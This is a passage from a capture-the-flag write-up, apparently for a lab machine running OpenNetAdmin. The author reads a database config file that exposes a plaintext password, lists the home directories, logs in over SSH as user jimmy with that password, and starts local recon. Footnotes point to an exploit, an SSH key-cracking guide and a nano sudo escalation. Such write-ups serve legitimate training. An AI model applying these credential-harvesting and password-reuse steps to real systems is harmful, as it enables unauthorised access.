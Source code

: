 And then simply used `cat [FILE/PATH/FILE]` to search for something interesting. After a while I found a interesting file:

~~~
$ cat local/config/database_settings.inc.php
~~~

~~~
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
~~~

Also by using `ls` on /home-directory I found two different users: jimmy and joanna.
~~~
$ ls /home
~~~

~~~
jimmy
joanna
~~~

So now we have a suspected password and a user to try!


## Local recon
First let's try to login:
~~~
$ ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: n1nj4W4rri0R!
~~~

Success! But a quick look in jimmys home directory does not give us a flag. So problably going to need to move lateraly over to the user joanna. 

A local recon with:
~~~
$ netstat -l
~~~


[^1]: https://www.exploit-db.com/exploits/47691
[^2]: https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/ 
[^3]: https://gtfobins.github.io/gtfobins/nano/#sudo 
